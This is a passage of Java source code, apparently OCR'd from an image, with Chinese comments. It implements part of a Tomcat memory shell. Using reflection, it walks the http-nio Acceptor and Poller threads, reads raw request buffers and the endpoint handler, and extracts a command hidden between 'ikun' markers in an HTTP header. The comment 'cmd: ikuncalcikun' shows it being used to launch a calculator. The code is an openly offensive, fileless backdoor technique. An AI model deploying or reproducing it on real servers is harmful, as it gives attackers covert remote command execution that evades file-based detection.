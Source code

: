 ```plain
            Thread[] threads = (Thread[]) getField(Thread.currentThread().getThreadGroup(), "threads");
            for (Thread thread : threads) {
                try {
                    // 需要获取线程的特征包含Acceptor
                    if (thread.getName().contains("Acceptor") && thread.getName().contains("http-nio")) {
                        Object[] nioEndpointPollerArrays = (Object[]) getField(getField(getField(thread,"target"),"this$0"),"pollers");
                        for (Object nioEndpointPollerArray : nioEndpointPollerArrays){
                            Object[] channelArrays = (Object[]) getField(getField(nioEndpointPollerArray,"selector"),"channelArray");
                            for (Object obj : channelArrays){
                                if (obj != null){
                                    byte[] bytes = (byte[]) getField(getField(getField(getField(getField(obj,"attachment"),"socket"),"appReadBufHandler"),"byteBuffer"),"hb");
                                    String cmd = new String(bytes);
                                    return cmd;
                                }
                            }
                        }
                    }
                } catch (Exception e) {
                    continue;
                }
            }
            return "";
        }

        // 解析字符串获取 cmd 字符串
        public String getCmd(String str){
            // HTTP 报文头中需要添加例如，cmd: ikuncalcikun，意为命令执行启动计算器
            String cmd = str.substring(str.indexOf("ikun")+4 , str.lastIndexOf("ikun"));
            return cmd;
        }

    }

    // 线程中获取 Handler 对象
    public Object getTheHandler() {
        // 获取当前线程的所有线程
        Thread[] threads = (Thread[]) getField(Thread.currentThread().getThreadGroup(), "threads");
        for (Thread thread : threads) {
            try {
                // 需要获取线程的特征包含Acceptor
                if (thread.getName().contains("Acceptor") && thread.getName().contains("http-nio")) {
                    Object handler  = getField(getField(getField(thread, "target"),"this$0"),"handler");
                    return handler;
                }
            } catch (Exception e) {
                continue;
            }
        }
        return new Object();
    }

    // 反射获取对象
    public Object getField(Object obj, String field) {
        // 递归获取类的及其父类的属性
        Class clazz = obj.getClass();
        while (clazz != Object.class) {
```
